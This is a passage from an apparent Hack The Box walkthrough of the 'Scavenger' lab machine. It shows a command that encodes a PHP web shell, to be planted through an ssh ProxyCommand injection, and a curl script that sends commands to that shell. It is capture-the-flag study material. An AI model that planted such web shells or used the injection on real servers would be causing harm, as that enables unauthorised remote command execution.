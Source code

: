 ![8bd84dee.png](/assets/images/posts/scavenger-htb-walkthrough/8bd84dee.png)
</a>

Long story short, the vulnerability arises because `rsh` is symbolic-linked to `ssh`. And the IMAP URL is passed to `ssh` in its entirety. That's why you see `-oProxyCommand` above.

Let\'s do something similar like what happened to `ib01c03`—we `echo` a `shell.php` to the base directory.

```
# echo 'echo "<?php echo shell_exec(\$_GET[0]); ?>" > ../shell.php' | base64 -w0 && echo
ZWNobyAiPD9waHAgZWNobyBzaGVsbF9leGVjKFwkX0dFVFswXSk7ID8+IiA+IC4uL3NoZWxsLnBocAo=
```

Simply replace the original `base64`-string with our own. Once that's done, we'll re-purpose the previous `bash` script for `ib01c01`.

<div class="filename"><span>ib01c01.sh</span></div>

```bash
#!/bin/bash

HOST=www.pwnhats.htb
CMD=$(urlencode $@)

curl -s \
     "http://$HOST/shell.php?0=$CMD"
```


[1]: https://www.hackthebox.eu/home/machines/profile/202
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/
